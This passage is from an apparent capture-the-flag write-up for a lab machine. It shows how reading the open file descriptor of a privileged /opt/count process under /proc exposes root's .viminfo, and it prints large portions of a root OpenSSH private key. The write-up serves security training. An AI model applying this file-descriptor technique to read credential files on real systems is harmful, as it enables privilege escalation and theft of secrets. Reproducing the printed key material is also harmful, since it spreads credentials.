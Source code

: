 ```
z04JxGYCePRKTBy/kth9VFsAJ3eQezpwAAAMEAwaLVktNNw+sG/Erdgt1i9/vttCwVVhw9
RaWN522KKCFg9W06leSBX7HyWL4a7r21aLhglXkeGEf3bH1V4nOE3f+5mU8S1bhleY5hP9
6urLSMt27NdCStYBvTEzhB86nRJr9ezPmQuExZG7ixTfWrmmGeCXGZt7KIyaT5/VZ1W7Pl
xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
-----END OPENSSH PRIVATE KEY-----S
...
```

## .viminfo

The other option to obtain the ssh key was to read the `.viminfo` file with `/opt/count` and then cat the file descriptor. This was the originally intended method but it seems a bit more guessy to me, especially since with normal permission of a `.viminfo` file(`600`) we wouldn't even be able to read the file descriptor. To perform the attack we run `/opt/count` and specify `/root/.viminfo` as the filename.

```
dasith@secret:~$ /opt/count
Enter source file/directory name: /root/.viminfo

Total characters = 16370
Total words      = 2228
Total lines      = 562
Save results a file? [y/N]:
```

Now we grep for the process id and cat `/fd/3`.

```
dasith@secret:~$ pgrep -f /opt/count
2410
```

This also reveals the root users ssh key.

```
dasith@secret:~$ cat /proc/2410/fd/3
# This viminfo file was generated by Vim 8.1.
# You may edit it if you're careful!
...[snip]...
# Registers:
""0     LINE    0
        -----BEGIN OPENSSH PRIVATE KEY-----
        b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
        NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
        KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
        7wNrxitkPrmuViWPGQCotBDCZmn4WNbNT0kcsfA+b4xB+am6tyDthqjfPJngROf0Z26lA1
        xw0OmoCdyhvQ3azlbkZZ7EWeTtQ/EYcdYofa8/mbQ+amOb9YaqWGiBai69w0Hzf06lB8cx
        8G+KbGPcN174a666dRwDFmbrd9nc9E2YGn5aUfMkvbaJoqdHRHGCN1rI78J7rPRaTC8aTu
        BKexPVVXhBO6+e1htuO31rHMTHABt4+6K4wv7YvmXz3Ax4HIScfopVl7futnEaJPfHBdg2
        5yXbi8lafKAGQHLZjD9vsyEi5wqoVOYalTXEXZwOrstp3Y93VKx4kGGBqovBKMtlRaic+Y
        Tv0vTW3fis9d7aMqLpuuFMEHxTQPyor3+/aEHiLLAAAFiMxy1SzMctUsAAAAB3NzaC1yc2
        EAAAGBAJ+sy5Zu0DhhmcrVAjt0jaUeb3Q38Tc5X5FMOJzMP4RZaUT2ikW4tylGbASsoKDr
        85oc1mHLONd1AyalDFrPqPTsHqtL4sENUCZlcM76hYxTUsc1xFaI5qAnj8Pu8Da8YrZD65
        rlYljxkAqLQQwmZp+FjWzU9JHLHwPm+MQfmpurcg7Yao3zyZ4ETn9GdupQNccNDpqAncob
        0N2s5W5GWexFnk7UPxGHHWKH2vP5m0Pmpjm/WGqlhogWouvcNB839OpQfHMfBvimxj3Dde
        +GuuunUcAxZm63fZ3PRNmBp+WlHzJL22iaKnR0RxgjdayO/Ce6z0WkwvGk7gSnsT1VV4QT
        uvntYbbjt9axzExwAbePuiuML+2L5l89wMeByEnH6KVZe37rZxGiT3xwXYNucl24vJWnyg
        BkBy2Yw/b7MhIucKqFTmGpU1xF2cDq7Lad2Pd1SseJBhgaqLwSjLZUWonPmE79L01t34rP
        Xe2jKi6brhTBB8U0D8qK9/v2hB4iywAAAAMBAAEAAAGAGkWVDcBX1B8C7eOURXIM6DEUx3
        t43cw71C1FV08n2D/Z2TXzVDtrL4hdt3srxq5r21yJTXfhd1nSVeZsHPjz5LCA71BCE997
        44VnRTblCEyhXxOSpWZLA+jed691qJvgZfrQ5iB9yQKd344/+p7K3c5ckZ6MSvyvsrWrEq
        Hcj2ZrEtQ62/ZTowM0Yy6V3EGsR373eyZUT++5su+CpF1A6GYgAPpdEiY4CIEv3lqgWFC3
        4uJ/yrRHaVbIIaSOkuBi0h7Is562aoGp7/9Q3j/YUjKBtLvbvbNRxwM+sCWLasbK5xS7Vv
        D569yMirw2xOibp3nHepmEJnYZKomzqmFsEvA1GbWiPdLCwsX7btbcp0tbjsD5dmAcU4nF
```